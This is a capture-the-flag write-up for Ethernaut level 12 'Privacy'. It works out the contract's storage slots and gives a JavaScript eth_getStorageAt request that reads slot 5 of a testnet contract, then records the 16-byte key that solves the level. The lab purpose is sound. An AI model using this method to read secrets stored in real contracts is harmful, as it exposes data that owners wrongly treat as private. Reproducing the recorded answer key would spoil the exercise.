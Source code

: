 [12 - Privacy](https://ethernaut.openzeppelin.com/level/0xcAac6e4994c2e21C5370528221c226D1076CfDAB)

Solution: 
* storage is public on the blockchain, if you know how to read it
* we can use the same method as for Vault challenge, just with a different index
```
bool public locked = true; // slot 0
uint256 public ID = block.timestamp; // slot 1
uint8 private flattening = 10; // slot 2
uint8 private denomination = 255; // slot 2
uint16 private awkwardness = uint16(block.timestamp); // slot 2
bytes32[3] private data; // slot 3, 4, 5
```
* data[2] should be slot 5
```
const options = {
  method: 'POST',
  headers: {accept: 'application/json', 'content-type': 'application/json'},
  body: JSON.stringify({
    id: 1,
    jsonrpc: '2.0',
    method: 'eth_getStorageAt',
    params: ['0x67A2E1E7EfaCD82dEf7D315c4D11EA7a724C57bD', '0x05', 'latest']
  })
};

fetch('https://eth-goerli.g.alchemy.com/v2/docs-demo', options)
  .then(response => response.json())
  .then(response => console.log(response))
  .catch(err => console.error(err));
```
* returns **0x2268d6686c8a2e721ad064093ccc5f237a142c31a5021d7fc820ef8880fcdbc8**
* bytes16 of this is **0x2268d6686c8a2e721ad064093ccc5f23**, the beginning part

